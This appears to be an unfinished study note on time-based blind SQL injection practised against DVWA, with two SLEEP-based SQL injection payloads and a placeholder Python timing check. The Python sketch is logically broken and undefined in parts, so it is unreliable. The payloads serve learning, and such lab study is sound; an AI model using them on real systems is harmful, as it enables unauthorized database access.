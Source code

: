 # Time-Based Blind Query SQL Injection

Search Tag(s): #blind-sql-injection #dvwa

Open developers tools in any web browser in this case I'm using firefox. Go to **Network** tab.

TODO: Write a python script to bruteforce queries in order to automate blind SQL injection

https://oncybersec.com/automating-sql-injection/

```sql
' OR IF(1=1, SLEEP(5), 0)#
```

```sql
' OR IF(1=1, SLEEP(5), 0) UNION SELECT (SELECT version())#
```

This is just for reference but will be removed once the information is filled.

```python
# Check if the response time increases when the condition is true
def time_based_blind_sql_injection(target_url, injection_payload):
    response_time_when_condition_true = send_request(target_url, injection_payload)
    sleep(5)  # Introduce a delay
    response_time_when_condition_false = send_request(target_url, injection_payload)

    if response_time_when_condition_true > response_time_when_condition_false:
        return True  # The injected condition is true
    else:
        return False  # The injected condition is false

# Example usage
target_url = "https://example.com/vulnerable-page"
injection_payload = "1' AND IF(1=1, SLEEP(5), 0) --"

result = time_based_blind_sql_injection(target_url, injection_payload)
print("Is the injected condition true?", result)
```

---
## References

- [Learning Web Pentesting With DVWA Part 3: Blind SQL Injection](http://moinkhans.blogspot.com/2020/03/learning-web-pentesting-with-dvwa-part_28.html)